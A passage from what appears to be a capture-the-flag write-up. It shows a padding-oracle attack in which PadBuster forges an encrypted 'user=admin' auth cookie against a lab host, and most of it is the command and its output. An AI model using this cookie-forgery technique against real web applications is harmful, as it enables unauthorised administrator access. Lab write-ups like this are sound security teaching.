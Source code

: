
It takes several minutes, but it gets the full decrypted cookie. I'll
note that my guess from [above](#tech-stack) was correct, the cookie is
of the form "user=\[username\]".

Knowing what the underlying plaintext looks like, now I can run it again
with `-plain user=admin` to get back a valid cookie with that plaintext:



    oxdf@hacky$ padbuster http://10.10.11.119/ k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU 8 -cookie auth=k8MxxWHb3SFbTx%2BG7H6VaMfc4lKS6TUU -plaintext user=admin

    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+

    INFO: The original request returned the following
    [+] Status: 302
    [+] Location: home/index.php
    [+] Content Length: 13389

    INFO: Starting PadBuster Encrypt Mode
    [+] Number of Blocks: 2

    INFO: No error string was provided...starting response analysis

    *** Response Analysis Complete ***

    The following response signatures were returned:

    -------------------------------------------------------
    ID#     Freq    Status  Length  Location
    -------------------------------------------------------
    1       1       200     13389   N/A
    2 **    255     302     0       ../logout.php?err=1
    -------------------------------------------------------

    Enter an ID that matches the error condition
    NOTE: The ID# marked with ** is recommended : 2

    Continuing test with selection 2

    [+] Success: (196/256) [Byte 8]
    [+] Success: (148/256) [Byte 7]
    [+] Success: (92/256) [Byte 6]
    [+] Success: (41/256) [Byte 5]
    [+] Success: (218/256) [Byte 4]
    [+] Success: (136/256) [Byte 3]
    [+] Success: (150/256) [Byte 2]
    [+] Success: (190/256) [Byte 1]

    Block 2 Results:
    [+] New Cipher Text (HEX): 23037825d5a1683b
    [+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d
